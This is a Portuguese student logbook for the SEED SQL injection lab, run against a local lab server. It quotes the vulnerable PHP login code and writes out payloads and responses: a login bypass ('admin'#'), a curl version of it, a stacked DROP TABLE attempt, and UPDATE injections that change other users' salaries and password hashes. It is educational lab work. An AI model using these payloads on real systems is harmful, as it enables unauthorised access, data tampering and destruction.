






# LOGBOOK8 SQL INJECTION

## Setup

Antes de iniciarmos a aula laboratorial, tal como nos é pedido, devemos transferir os ficheiros necessários e executar os seguintes commandos:
```shell
    #Colocar '10.9.0.5 www.seed-server.com'
    $ dcbuild
    $ dcup
    #Abrir outro terminal pois o atual vai ser usado para manter a ligação
    $ dockps
    #Obter o id do servidor que queremos
    $ docksh <id>
    #dentro do shell
    / mysql -u root -pdees
    mysql> use sqllab_users;
```

## Task 1

Antes de tudo, executamos o comando `show tables` para vermos as tabelas existentes.


Para obtermos informações da 'Alice' executamos o comando `select * from credentials where Name="Alice";'` e obtemos os seguintes dados:


## Task 2

### Task 2.1

A nossa tarefa é fazer login na aplicação web como administrador a partir da página de login, para que possamos ver as informações de todos os funcionários. Assumimos que conhece o nome da conta do administrador, que é admin, mas não conhece a senha. 

Primeiramente, vamos aceder ao http://www.seed-server.com/ e reparamos que existem 2 input boxes que correspondem ao username e password.
Depois verificamos o ficheiro unsafe.php que contém o seguinte código (/Web_SQL_Injection/Labsetup/image_www/unsafe.php):
```php
$input_uname = $_GET['username'];
$input_pwd = $_GET['Password'];
$hashed_pwd = sha1($input_pwd);

// create a connection
$conn = getDB();

// do the query
$result = $conn->query("SELECT id, name, eid, salary, ssn
                        FROM credential
                        WHERE name= '$input_uname' and Password= '$hashed_pwd'");
```
Após analisar o código, chegamos à conclusão de que é facilmente usado o sql injection pois o código cria o comando usando strings que serão inputs do utilizador (sem sanitização e sem prepared statments).
Podemos escrever no lugar do input username o seguinte input `admin'#`na qual o código ficaria do seguinte formato:
```sql
SELECT id, name, eid, salary, ssn
                        FROM credential
                        WHERE name= 'admin'# and Password= ''
```
E obtivemos acesso:




### Task 2.2

O objetivo é o mesmo, mas desta vez usando pedidos HTTP requests (com `curl`). Usando o exemplo dado no guião `$ curl ’www.seed-server.com/unsafe_home.php?username=alice&Password=11’` obtivemos a resposta em html:
```html
<!--
SEED Lab: SQL Injection Education Web plateform
Author: Kailiang Ying
Email: kying@syr.edu
-->

<!--
SEED Lab: SQL Injection Education Web plateform
Enhancement Version 1
Date: 12th April 2018
Developer: Kuber Kohli

Update: Implemented the new bootsrap design. Implemented a new Navbar at the top with two menu options for Home and edit profile, with a button to
logout. The profile details fetched will be displayed using the table class of bootstrap with a dark table head theme.

NOTE: please note that the navbar items should appear only for users and the page with error login message should not have any of these items at
all. Therefore the navbar tag starts before the php tag but it end within the php script adding items as required.
-->

<!DOCTYPE html>
<html lang="en">
<head>
  <!-- Required meta tags -->
  <meta charset="utf-8">
  <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">

  <!-- Bootstrap CSS -->
  <link rel="stylesheet" href="css/bootstrap.min.css">
  <link href="css/style_home.css" type="text/css" rel="stylesheet">

  <!-- Browser Tab title -->
  <title>SQLi Lab</title>
</head>
<body>
  <nav class="navbar fixed-top navbar-expand-lg navbar-light" style="background-color: #3EA055;">
    <div class="collapse navbar-collapse" id="navbarTogglerDemo01">
      <a class="navbar-brand" href="unsafe_home.php" ></a>

      </div></nav><div class='container text-center'><div class='alert alert-danger'>The account information your provide does not exist.<br></div><a href='index.html'>Go back</a></div>
```

Vamos aplicar a mesma lógica que usamos no último exercício, neste caso trocando o single quote por %27 e o # por %23:
`shell curl "http://www.seed-server.com/unsafe_home.php?username=admin%27%23&Password="`

E obtivemos a resposta HTML:

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <!-- Required meta tags -->
  <meta charset="utf-8">
  <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">

  <!-- Bootstrap CSS -->
  <link rel="stylesheet" href="css/bootstrap.min.css">
  <link href="css/style_home.css" type="text/css" rel="stylesheet">

  <!-- Browser Tab title -->
  <title>SQLi Lab</title>
</head>
<body>
  <nav class="navbar fixed-top navbar-expand-lg navbar-light" style="background-color: #3EA055;">
    <div class="collapse navbar-collapse" id="navbarTogglerDemo01">
      <a class="navbar-brand" href="unsafe_home.php" ></a>

      <ul class='navbar-nav mr-auto mt-2 mt-lg-0' style='padding-left: 30px;'><li class='nav-item active'><a class='nav-link' href='unsafe_home.php'>Home <span class='sr-only'>(current)</span></a></li><li class='nav-item'><a class='nav-link' href='unsafe_edit_frontend.php'>Edit Profile</a></li></ul><button onclick='logout()' type='button' id='logoffBtn' class='nav-link my-2 my-lg-0'>Logout</button></div></nav><div class='container'><br><h1 class='text-center'><b> User Details </b></h1><hr><br><table class='table table-striped table-bordered'><thead class='thead-dark'><tr><th scope='col'>Username</th><th scope='col'>EId</th><th scope='col'>Salary</th><th scope='col'>Birthday</th><th scope='col'>SSN</th><th scope='col'>Nickname</th><th scope='col'>Email</th><th scope='col'>Address</th><th scope='col'>Ph. Number</th></tr></thead><tbody><tr><th scope='row'> Alice</th><td>10000</td><td>20000</td><td>9/20</td><td>10211002</td><td></td><td></td><td></td><td></td></tr><tr><th scope='row'> Boby</th><td>20000</td><td>30000</td><td>4/20</td><td>10213352</td><td></td><td></td><td></td><td></td></tr><tr><th scope='row'> Ryan</th><td>30000</td><td>50000</td><td>4/10</td><td>98993524</td><td></td><td></td><td></td><td></td></tr><tr><th scope='row'> Samy</th><td>40000</td><td>90000</td><td>1/11</td><td>32193525</td><td></td><td></td><td></td><td></td></tr><tr><th scope='row'> Ted</th><td>50000</td><td>110000</td><td>11/3</td><td>32111111</td><td></td><td></td><td></td><td></td></tr><tr><th scope='row'> Admin</th><td>99999</td><td>400000</td><td>3/5</td><td>43254314</td><td></td><td></td><td></td><td></td></tr></tbody></table>      <br><br>
      <div class="text-center">
        <p>
          Copyright &copy; SEED LABs
        </p>
      </div>
    </div>
    <script type="text/javascript">
    function logout(){
      location.href = "logoff.php";
    }
    </script>
  </body>
  </html>
```

### Task 2.3

Neste exercício, vamos tentar transformar 1 comando sql em 2, sendo o segundo comando o delete statement. Para isso fomos ao website e colocamos, no lugar do username input `admin'; DROP TABLE IF EXISTS credentials; #`.

Obtivemos o seguinte resultado:




## Task 3


### Task 3.1

Entrando através do perfil da alice ,usando o sql injection (username input = alice'#), abrimos o website e escrevemos os dados e fomos redirecionados para:



Após verificar o ficheiro unsafe_edit_backend.php, concluímos que tal como na login page, as inputs boxes também não tem sanitização e os comandos sql são feitos com strings. Sabendo isso, no input phone number (escolhemos este pois estava mais para o fim do código, evitando assil stresses desnecessários) escrevemos `933281036',Salary='69420`.
Em princípio o servidor vai executar o seguinte código:
```sql
UPDATE credential SET
nickname='$input_nickname',
email='$input_email',
address='$input_address',
Password='$hashed_pwd',
PhoneNumber='933287036',Salary='69420' WHERE ID=$id;
```
Para verificar se alteramos as tabelas vamos fazer o select:



Os resultados foram alterados!

### Task 3.2

Para este desafio, teremos de alterar os salários das outras pessoas. Ora, usando a mesma lógica do ex anterior, só temos de adicionar uma condição no fim para alterar o salário do outro, que neste caso foi o Boby.
Inserimos o comando `933287036',Salary='0' WHERE Name='Boby'#` no input phonenumber.

Em princípio o código a ser executado no servidor será:

```sql
UPDATE credential SET
nickname='$input_nickname',
email='$input_email',
address='$input_address',
Password='$hashed_pwd',
PhoneNumber='933287036',Salary='0' WHERE Name='Boby' # WHERE ID=$id;
```

Para verificar as alterações, fazemos novamente o select:



Os resultados foram alterados, para o boby!

### Task 3.3

Para modificar a senha de outro usuário, utilizamos um método semelhante ao anterior. Neste caso, a password a ser alterada foi codificada utilizando criptografia SHA1 (presente no ficheiro unsafe_edit_backend.php `php $hashed_pwd = sha1($input_pwd);`). Por exemplo, para a nova senha "seguranca", o hash correspondente é 5f486df14216efaf5184a071d7b42f5a2ed8fe26. Utilizamos o site http://www.sha1-online.com/#google_vignette para fazer as conversões.


Introduzimos o seguinte input no phonenumber `933287036', password='5f486df14216efaf5184a071d7b42f5a2ed8fe26' WHERE name='Boby'#`.

Em princípio, o código a ser executado vai ser:

```sql
UPDATE credential SET
nickname='$input_nickname',
email='$input_email',
address='$input_address',
Password='$hashed_pwd',
PhoneNumber='933287036',Password='73335c221018b95c013ff3f074bd9e8550e8d48e' WHERE name='Boby'# WHERE ID=$id;
```

Agora, verificamos que conseguimos fazer login na conta boby e temos acesso total à conta dele.




